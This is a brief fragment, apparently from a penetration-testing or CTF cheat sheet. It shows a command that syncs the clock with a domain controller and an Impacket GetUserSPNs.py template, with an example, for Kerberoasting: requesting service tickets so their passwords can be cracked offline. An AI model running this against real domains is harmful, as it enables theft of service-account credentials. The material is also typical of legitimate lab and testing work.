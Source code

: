 ntpd -g -q 
This will sync the time and the dc together


```bash
GetUserSPNs.py [DOMAIN]/USERNAME:PASSWORD -dc-ip [IP] -request
example: GetUserSPNs.py control.local/mrwelldone:password123 -dc-ip 10.10.10.10 -request
